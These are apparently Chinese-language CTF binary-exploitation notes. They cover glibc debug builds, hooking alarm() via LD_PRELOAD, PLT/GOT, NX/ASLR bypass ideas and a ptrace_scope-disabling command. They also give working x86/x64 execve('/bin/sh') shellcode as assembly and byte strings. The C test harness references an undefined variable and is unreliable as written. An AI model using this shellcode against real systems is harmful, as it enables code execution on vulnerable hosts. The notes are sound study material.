

## 一些资源

```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcodes/
[linux pwn 入门教程 i春秋](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)
[格式化字符串](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=43624&ctid=157)
[调整栈帧的技巧](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42534&ctid=157)
[PIE无关](https://bbs.ichunqiu.com/thread-43627-1-1.html)
```

## 编译带 debug symbol 的 glibc

### download

[glibc](http://gnu.mirrors.pair.com/libc/)

### make

解压后，要创建额外的 build 目录，直接在 glibc 目录下创建了 build 目录`mkdir build && cd build`，使用下面的命令进行编译,
`CFLAGS` makefile 编译选项
`-g`:包含调试信息是 OS native format
`-ggdb`: 供 gdb 使用的调试信息
`-g3`: 产生额外的 debug 信息
`-gdwarf-4`: 产生 dwarf 格式的 debug info，产生 `.debug_info`段
`-Og` 启用不影响调试的编译优化
`--prefix` 安装路径
`--disable-sanity-checks` 关闭适应性检查。可能与 GNU/Linux 行为不一致

```sh
CFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" CXXFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" ../configure --prefix=/root/app/glibc22364 --disable-werror
```

### use

运行前需要加环境变量,
example:`export LD_LIBRARY_PATH=/root/app/glibc22364/lib/

### 排错

`loc1@GLIBC_2.17' can't be versioned to common symbol 'loc1'` 这是一个 bug，在[这里](https://stackoverflow.com/questions/51279418/how-to-build-older-version-of-glibc)可以找到解决方法。

## 干掉 alarm

很多题目都有 alarm 函数防止 Dos 攻击，超过指定的时候后程序就会退出，不便于 debug，通常有几种干掉 alarm 的方法：

- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD

```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```

编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got



plt 指向 got,采用延时绑定。printf 函数中，0x404c010 实际内容是下一条指令`push 0`,
而 plt.got 是已经绑定的， puts 函数的 0x804bff4 是指向实际 puts 函数的

## PIC 地址无关 PIE

[看这篇文章](https://www.polarxiong.com/archives/%E5%A6%82%E4%BD%95%E7%90%86%E8%A7%A3DLL%E4%B8%8D%E6%98%AF%E5%9C%B0%E5%9D%80%E6%97%A0%E5%85%B3%E7%9A%84-DLL%E4%B8%8EELF%E7%9A%84%E5%AF%B9%E6%AF%94%E5%88%86%E6%9E%90.html)

## shellcode

### x86

```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

20bytes:

```x86asm
  xor ecx,ecx
  cdq
  push ecx
  push 0x68732f2f
  push 0x6e69622f
  mov ebx,esp
  mov al,0xb
  int 0x80
```

### x64

24bytes:

```x64asm
global _start
section .text
_start:
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
	push rdx
	push rdi
	push rsp
	pop rsi
	syscall
```

22bytes:

```x64asm
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
  push rdx
	pop rsi
	syscall
```

```c
#include <stdio.h>
#include <string.h>
char code24[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
char code22[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code24));
    (*(void(*)()) code)();
    return 0;
}
```

### 制作方法

linux 下

- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode 的。
- 使用`xxd -i [target]`将上述 shellcode 转为 char 数组
  相关工具
- https://github.com/Neetx/Shellcode-Extractor
  从 elf 提取 shellcode

## 生成可打印的 shellcode

TODO:  
http://blog.eonew.cn/archives/1125

## 漏洞挖掘方法

- 现成 CMS 注意 DIFF
- 根据漏洞 PATCH
- 根据漏洞写出 EXP，发动攻击
-

## 保护

NX:DEP 栈不可执行，可执行不可写 ROP 绕过
ALSR: 把每次载入的函数地址随机化，利用 puts/printf 等 leak 出 libc 的实际地址

## strace

strace 可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败

```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```

## LD_PRELOAD、 LD_SHOW_AUXV

- LD_PRELOAD 可以指定一个或多个共享库文件，linux 加载器`ld-linux`会先于 glibc 加载 LD_PRELOAD 指定的库。  
  用途：HOOK 掉 alarm。  
  为了避免用于恶意攻击，在 ruid !=euid 的情况下加载器是不会使用 LD_PRELOAD 进行预加载。
- `LD_SHOW_AUXV=1 ./pwnme` 用于调试
